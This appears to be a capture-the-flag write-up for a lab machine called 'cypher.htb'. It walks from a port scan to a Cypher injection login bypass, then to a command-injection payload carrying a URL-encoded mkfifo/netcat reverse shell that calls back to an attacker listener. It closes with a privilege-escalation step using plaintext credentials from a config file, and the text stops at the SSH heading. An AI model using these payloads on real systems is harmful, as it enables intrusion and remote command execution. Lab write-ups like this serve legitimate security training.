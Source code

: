 # Foothold

## Step 1: Scan for Open Ports

First thing, let's scan for open ports with the following `nmap` command:

```bash
nmap -sV -sC -p- --defeat-rst-ratelimit -O -A cypher.htb
```
## Scan results:
![Nmap port scan](img/nmap.png)

## Step 2: Investigate website

With only ports 80 and 22 open, we’ll start by examining the web service.

![Login page](img/loginpage.png)

## Step 3: Cypher injection

After trying some Cypher injection payloads we can see that there is a huge error popping up. This strongly suggests a potential Cypher injection vulnerability.

![Login page after injecting 'OR 1=1](img/image.png)

## Step 4: Crafting authentication bypass payload

```bash
{
  "username": "admin' OR 1=1 RETURN 'a94a8fe5ccb19ba61c4c0873d391e987982fbbd3' AS hash //",
  "password": "test"
}
```
### How this works?
This payload returns the hash of the string "test", which is then used for comparison against the user-provided password hash instead of actual admins hash.

![Demo page](img/Demopage.png)

## Step 5: Crafting SSRF payload with Cypher Injection

```bash
CALL custom.getUrlStatusCode("http://ip:port/?c=$(whoami)")
```

This payload leverages a custom function to retrieve the HTTP status code from a specified URL. However, it also includes a command injection ($(whoami)) at the end of the URL, which attempts to execute a system command on the server.

### How to use?

1. Set up netcat listener on your port.

```bash
nc -lnvp 4444
```

2. Enter the payload into search query on the website.

```bash
CALL custom.getUrlStatusCode("http://<ip>:<port>/?c=$(rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%20<ip>%20<port>%20%3E%2Ftmp%2Ff)")
```

3. Check your listener for response.

![Foothold](img/foothold.png)

# PrivEsc

## Step 1: List /home/graphasm

![listhome](img/listhome.png)

After listing graphasms home files we find bbot configuration file which contains password in plain text. We can now use those credentials to connect to SSH as graphasm.

## Step 2: SSH as graphasm


